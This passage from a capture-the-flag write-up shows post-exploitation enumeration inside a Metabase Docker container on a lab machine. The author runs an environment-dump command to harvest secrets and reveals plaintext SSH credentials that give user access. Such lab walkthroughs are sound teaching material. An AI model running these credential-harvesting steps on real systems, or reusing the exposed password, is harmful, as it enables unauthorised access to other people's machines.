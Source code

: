 ```
drwxr-xr-x    1 root     root          4096 Jun 15 05:12 opt
drwxrwxrwx    1 root     root          4096 Aug  7 11:10 plugins
dr-xr-xr-x  227 root     root             0 Dec  2 04:49 proc
drwx------    1 root     root          4096 Aug  3 12:26 root
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 run
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 sbin
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 srv
dr-xr-xr-x   13 root     root             0 Dec  2 04:49 sys
drwxrwxrwt    1 root     root          4096 Aug  3 12:16 tmp
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 usr
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 var
```



On the first look, we see the `.dockerenv` file indicating that we might be in a Docker container. This point also doesn’t have python, so It’d be harder to get a full tty.

I then proceeded to look into interesting directories and files, such as `/app` and `/home/metabase`. They seemed like good candidates for finding credentials, and I actually spent a lot of time trying to poke around them, but didn’t find anything useful. So I went through HackTrick’s Linux PrivEsc guide and found these interesting environment variables:



```bash
$ (env || set) 2>/dev/null
```
```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=5055712452fd
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=8
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/home/metabase
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```
The credentials stored as `META_USER` AND `META_PASS` grant us ssh access as `metalytics@analytical.htb`, which leads to the user flag.
